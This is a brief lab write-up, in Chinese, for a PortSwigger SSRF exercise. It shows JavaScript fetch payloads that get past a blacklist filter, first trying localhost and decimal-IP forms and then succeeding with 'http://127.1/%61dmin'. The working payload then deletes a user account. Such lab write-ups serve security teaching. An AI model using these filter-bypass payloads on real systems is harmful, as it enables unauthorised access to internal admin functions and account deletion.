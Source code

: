 又要開始刪人家的帳號了XDD

## Lab: SSRF with blacklist-based input filter

| Dimension | Description                                                                       |
| --------- | --------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-with-blacklist-based-input-filters |
| Lab       | https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter          |

先嘗試

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`http://localhost/admin`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

=> `"External stock check blocked for security reasons"`

之後嘗試

```js
encodeURIComponent(`http://localhost`);
encodeURIComponent(`/admin`);
encodeURIComponent(`http://localhost/ADMIN`);
encodeURIComponent(`2130706433/admin`);
encodeURIComponent(`http://2130706433/admin`);
encodeURIComponent(`https://2130706433/admin`);
encodeURIComponent(`https://localhost/admin`);
encodeURIComponent(`http://127.1/admin`);
```

=> `"External stock check blocked for security reasons"`

最終嘗試

```js
encodeURIComponent(`http://127.1/%61dmin`);
```

然後就可以來刪帳號

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`http://127.1/%61dmin/delete?username=carlos`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```
